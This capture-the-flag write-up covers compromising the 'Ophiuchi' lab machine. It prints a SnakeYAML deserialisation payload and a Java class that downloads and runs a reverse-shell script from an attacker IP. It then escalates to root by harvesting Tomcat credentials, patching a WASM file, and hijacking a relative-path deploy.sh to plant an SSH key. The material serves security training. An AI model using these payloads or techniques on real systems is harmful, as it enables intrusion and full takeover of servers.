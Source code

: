 # Ophiuchi

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (3949).png" alt=""><figcaption></figcaption></figure>

### YAML Parser

Port 8080 was running an application that handles YAML input.

<figure><img src="../../../.gitbook/assets/image (1325).png" alt=""><figcaption></figcaption></figure>

This was obviously a deserialisation exploit, where the application handles user input without sanitsation and it can lead to code execution. Googling for this led me to this repository.

{% embed url="https://github.com/mbechler/marshalsec" %}

Based on the PoC, we can first test whether the parser is able to send requests to our host using this script:

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://VPN_IP/yaml-payload.jar"]
  ]]
]
```

And it does indeed work.

<figure><img src="../../../.gitbook/assets/image (1625).png" alt=""><figcaption></figcaption></figure>

We then need to use this bit of code here to make the machine download a reverse shell and execute it.

```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl http://10.10.16.9/rev.sh -o /tmp/rev.sh");
            Runtime.getRuntime().exec("bash /tmp/rev.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

After editing this code, we need to compile it to a JAR file using these:

```bash
javac AwesomeScriptEngineFactory.java 
jar -cvf AwesomeScriptingEngineFactory.jar -C src/ .
```

This would create a JAR file. Then, we can make the machine download the JAR file using the same method as above to receive callback. This would trigger the command and our listener port would receive a reverse shell as `tomcat`.&#x20;

<figure><img src="../../../.gitbook/assets/image (1638).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Tomcat Credentials

Since we are `tomcat`, we should look into the configurations for the Tomcat interface. This can be found within `~/conf/tomcat-users.xml`.

<figure><img src="../../../.gitbook/assets/image (1924).png" alt=""><figcaption></figcaption></figure>

We can try an `su` to the `admin` user and find that it works with this password.

<figure><img src="../../../.gitbook/assets/image (2715).png" alt=""><figcaption></figcaption></figure>

### Sudo Privileges

Since we have the password, we can check for `sudo` privileges.

<figure><img src="../../../.gitbook/assets/image (2165).png" alt=""><figcaption></figcaption></figure>

Seems that we can run `go` on a certain script:

```go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```

The `deploy.sh` does not have absolute path, so we can create our own script to get a `root` shell. However, before running that, the script seems to check `main.wasm` and only runs `deploy.sh` if it returns 1.&#x20;

Running the script does not work no matter what for now, so let's investigate `main.wasm`. WASM is short for Web Assembly, and we can download and decompile the file here:

{% embed url="https://wasdk.github.io/WasmFiddle/" %}

This would allow us to see the code that is present. Alternatively, we can use `wasm-decompile` to read it.

```
export memory memory(initial: 16, max: 0);

global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;

table T_a:funcref(min: 1, max: 1);

export function info():int {
  return 0
}
```

The above code seems to do nothing but return 0, so we need to change that 0 to a 1. We can count the bytes and change the byte accordingly using `dd`.&#x20;

<figure><img src="../../../.gitbook/assets/image (1216).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can create a `deploy.sh` file that adds our public key into the `/root/.ssh/authorized_key` folder and run the `sudo` command.

This would allow us to SSH in as `root`.

<figure><img src="../../../.gitbook/assets/image (2263).png" alt=""><figcaption></figcaption></figure>
